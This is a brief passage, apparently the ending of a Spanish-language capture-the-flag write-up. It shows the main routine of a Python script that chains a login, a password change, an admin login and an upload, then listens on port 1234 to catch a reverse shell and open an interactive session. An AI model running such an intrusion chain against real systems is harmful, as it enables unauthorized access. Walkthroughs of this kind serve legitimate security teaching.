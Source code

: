 ```py
    login()
    changePass()
    loginadmin()
    upload()
    threading.Thread(target=conection, args=()).start()
    shell = listen(1234,timeout=20).wait_for_connection()
    shell.interactive()
```
¡Listo! Hemos terminado la automatización de la intrusión.

Nos vemos, hasta la próxima.
